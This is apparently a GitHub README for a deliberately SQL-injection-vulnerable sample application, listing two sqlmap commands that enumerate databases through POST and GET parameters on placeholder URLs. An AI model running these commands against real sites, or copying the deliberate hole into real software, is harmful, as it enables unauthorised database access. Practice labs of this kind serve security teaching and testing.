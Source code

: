 # SQL-injection
Sample application the SQL injection vulnerablity. Coded by Xale


sqlmap payload ( blind ) : sqlmap -u "site/index.php" --method="POST" --data="veri=asd" --dbs
sqlmap payload ( get ) : sqlmap -u "site/yazi.php?id=1" --batch --dbs
